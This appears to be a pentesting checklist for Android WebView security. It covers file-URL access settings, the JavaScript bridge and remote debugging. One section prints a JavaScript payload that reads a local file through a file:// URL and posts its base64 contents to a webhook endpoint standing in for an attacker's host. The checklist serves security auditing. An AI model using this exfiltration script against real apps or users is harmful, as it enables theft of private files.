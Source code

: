 # WebViews

## File Access in WebViews
- By default, WebViews permit file access. This functionality is controlled by the `setAllowFileAccess()` method, available since Android API level 3 (Cupcake 1.5). Applications with the `android.permission.READ_EXTERNAL_STORAGE` permission can read files from external storage using a file URL scheme (file://path/to/file).

- [ ] **Check for `loadURL()` Function**
  - [ ] **Check for `WebView.getSettings().setJavaScriptEnabled(true)`**: This setting allows the execution of JavaScript code within the WebView. WebViews can handle the intent scheme, potentially leading to exploits if not carefully managed. An example vulnerability involved an exposed WebView parameter "url" that could be exploited to execute cross-site scripting (XSS) attacks.

  > [!NOTE] This setting alone isn't always sufficient to pose a high security risk. Additional settings need to be checked, such as the following:
- **Deprecated Features: Universal and File Access From URLs**
  - [ ] **Check for `WebView.setAllowUniversalAccessFromFileURLs(true)`**: This setting removes all same-origin policy restrictions and allows the WebView to make requests from file URLs to the web. This can potentially allow an attacker to read local files using JavaScript and send them to an attacker-controlled domain.
  - [ ] **Check for `WebView.setAllowFileAccessFromFileURLs(true)`**: File Access From File URLs > This feature, also deprecated, controlled access to content from other file scheme URLs. Like universal access, its default is disabled for enhanced security.

- **WebViewAssetLoader (Mitigation):**
  - The WebViewAssetLoader class is the modern approach for loading local files. It uses http(s) URLs for accessing local assets and resources, aligning with the Same-Origin policy, thus facilitating CORS management.

- **Javascript Bridge**
  - A feature is provided by Android that enables JavaScript in a WebView to invoke native Android app functions. This is achieved by utilizing the `addJavascriptInterface` method, which integrates JavaScript with native Android functionalities, termed as a WebView JavaScript bridge. Caution is advised as this method allows all pages within the WebView to access the registered JavaScript Interface object, posing a security risk if sensitive information is exposed through these interfaces.

    - Extreme caution is required for apps targeting Android versions below 4.2 due to a vulnerability allowing remote code execution through malicious JavaScript, exploiting reflection.
  - [ ] **Check for `WebView.addJavascriptInterface("OBJECT_OF_JAVA_CLASS", "OBJECT_OF_JAVASCRIPT_CLASS")`**: This setting creates an interface between JavaScript in the WebView and Java code defined in the interface. From the JavaScript object, public functions from the Java object class can be called.

## Example of JavaScript Code for Data Exfiltration

```javascript
<script>
var xhr = new XMLHttpRequest();
var xhr2 = new XMLHttpRequest();

xhr.onreadystatechange = () => {
    if (xhr.readyState === 4) {
        xhr2.open("POST", "https://webhook.site/your-endpoint");
        xhr2.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
        xhr2.send('data=' + btoa(xhr.responseText));
    }
};

xhr.open("GET", "file:///path/to/file", true);
xhr.send();
</script>
```
- [ ] Check for Remote Debugging with `WebView.setWebContentsDebuggingEnabled(true);`
    - If enabled, anyone on the same local network can see , control the WebView and execute JavaScript code.

    - You can test WebView remote debugging using chrome://inspect/#devices in Google Chrome.

## Resources
- [Web view Check list](https://blog.oversecured.com/Android-security-checklist-webview/)
- [HackTricks - WebView](https://book.hacktricks.xyz/mobile-pentesting/android-app-pentesting/webview-attacks)